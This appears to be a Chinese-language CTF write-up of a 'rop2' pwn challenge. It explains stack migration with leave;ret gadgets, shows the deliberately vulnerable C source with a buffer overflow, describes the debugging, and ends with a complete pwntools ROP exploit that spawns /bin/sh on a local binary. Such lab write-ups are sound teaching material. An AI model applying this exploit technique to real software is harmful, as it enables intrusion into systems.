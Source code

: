 ```yaml
---
title: lys rop2 Writes up
published: 2024-08-08
tags: [CTF]
category: Cyber Security
draft: false
image: 'image.png'
---
```



### Stack Migration

當今天在串 rop gadget 的時候發現字串的大小不夠你塞，你可以用 leave ; ret 去跳到另外一個有空間 Stack 上

|  gadget   | 意思 |
|  ----  | ----  |
| leave  | mov rsp , rbp; pop rbp |
| ret  | pop rip |


### Recon

file:
![image](https://hackmd.io/_uploads/ByPV2fW5R.png)

checksec:
![image](https://hackmd.io/_uploads/r1CBnGWqA.png)

source.c:

```c=
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

char name[0x100];

size_t readbuf(char *buf, size_t len)
{
    size_t i=0;
    while(i<len){
        if(read(0,&buf[i],1)!=1){
            break;
        }
        if(buf[i]=='\n'){
            buf[i] = 0;
            break;
        }
        i++;
    }
    return i;
}

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);
    //printf("Gift: ")
    printf("What is your name? ");
    readbuf(name, 0x100);
    printf("Hello, %s\n", name);
    char buf[0x10];
    printf("You have a buffer overflow vuln: ");
    readbuf(buf, 0x20);
    return 0;
}
```

我們發現在 ```"You have a buffer overflow vuln: "```的 buf 大小是 10 ，但是他用 readbuf(buf,0x20) 去讀，所以導致了 buffer overflow 但是 buf 讀取的大小並不夠我們串好完整的 rop gadget ， 但是我們可以利用 Stack Migration 去達到 call execve ， 此外，這一題也是 statically linked，所以很好找到 gadget

這邊是 lys 簡報上的示意圖

這是我們第一次做完 leave 的時候:

![image](https://hackmd.io/_uploads/r1U1j3-q0.png)

這是我們第一次做完 ret 的時候:

![image](https://hackmd.io/_uploads/H1uminbcR.png)

會發現我們需要做兩次的 <font color="#f00"> leave ret; </font> 才可以讓我們的 rop gadget 跳到一個有空間的地方 ，至於為啥不用寫兩個 leave ret; 在 exp 裡面是因為程式本身就有做一次 leave ret; 了

![image](https://hackmd.io/_uploads/Sy9l6nb5A.png)


第一個 read 的時候因為 size 比較大，固被我們當作塞整串 ROP 的地方


```py=
r.sendlineafter('?','/bin/sh\x00'+p) #/bin/sh\x00 寫到 rdi 上ㄌ
```

第二個 read 因為空間不夠我們塞，所以是讓我們拿來跳轉到上面那一個 read 的地方

```py=
r.sendlineafter(':','a'*0x10+name+leave)
```

Stack 樣子:

```
               Stack grows down ↓

[ message (0x10 bytes) ]        <- buffer 開頭
[ saved RBP (8 bytes) ]         <- 被 p64(name) 蓋掉
[ return address (8 bytes) ]    <- 被 p64(leave_ret) 蓋掉


```

### debug 

一開始的 exp 的部分是

```py
r.sendlineafter('?','/bin/sh'+p)
```

會發程式爛掉ㄌ，所以就 gdb attach 上去看

下個斷點在 leave 前面

![leave](https://hackmd.io/_uploads/SyFsW0bqC.png)

發現程式有動到 migration 的部分，但是會發現 migration 之後就沒有一個所以然ㄌ

![bug1](https://hackmd.io/_uploads/H1gkMR-5R.png)

![bug2](https://hackmd.io/_uploads/SyrlfCWqR.png)

後面加上去 \x00 之後會發現程式正常的運作我們的　rop gadget

![solve1](https://hackmd.io/_uploads/rJFqfA-90.png)

![solve2](https://hackmd.io/_uploads/BJWhfRW9A.png)

## exploit

```py
from pwn import *

context(arch="amd64")

r=process('./rop2')


p=''

name=p64(0x4C7300)
pop_rax=p64(0x000000000044fd87)+p64(0x3b)
pop_rdi=p64(0x0000000000401f4f)+name
pop_rsi=p64(0x0000000000409f7e)+p64(0x0)
pop_rdx_pop_rbx=p64(0x0000000000485bab)+p64(0x0)+p64(0x0)
leave=p64(0x00000000004017ee)

syscall=p64(0x401d04)



p+=pop_rax+pop_rdi+pop_rsi+pop_rdx_pop_rbx+syscall


#pause()

r.sendlineafter('?','/bin/sh\x00'+p)

#pause()

r.sendlineafter(':','a'*0x10+name+leave)


r.interactive()
```

### pwned!

![image](https://hackmd.io/_uploads/SysZ7C-9C.png)
